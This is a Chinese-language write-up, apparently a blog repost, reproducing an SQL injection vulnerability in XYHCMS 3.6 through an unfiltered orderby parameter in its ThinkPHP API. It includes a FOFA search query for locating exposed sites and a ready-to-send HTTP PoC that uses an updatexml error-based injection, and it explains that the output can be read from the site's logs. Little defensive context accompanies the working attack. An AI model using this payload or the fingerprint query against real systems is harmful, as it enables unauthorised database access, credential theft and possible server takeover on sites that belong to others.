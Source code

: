 
# 行云海CMS SQL注入漏洞复现

### 0x01 产品简介

 行云海cms是完全开源的一套CMS[内容管理系统](https://so.csdn.net/so/search?q=%E5%86%85%E5%AE%B9%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020),简洁,易用,安全,稳定,免费。

### 0x02 漏洞概述

 行云海cms中ThinkPHP在处理order by排序时可利用key构造[SQL语句](https://so.csdn.net/so/search?q=SQL%E8%AF%AD%E5%8F%A5&spm=1001.2101.3001.7020)进行注入，LtController.class.php中发现传入了orderby未进行过滤导致sql注入。攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 影响范围

 xyhcms 3.6版本

### 0x04 复现环境

FOFA：app="XYHCMS"

![1f3ae77b60a24fd9926f11210ff9da08.png](assets/1701755900-d7deb418688c5204edbc1e9994cbde2f.png)

### 0x05 漏洞复现

PoC

```cobol
GET /index.php/Api/Lt/alist?orderby[updatexml(1,concat(0x3a,(select%20version()),0x3a),1);]=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

PS：PoC中报错[注入](https://so.csdn.net/so/search?q=%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)的结果不会直接回显，但会写到日志里面，访问日志即可查看
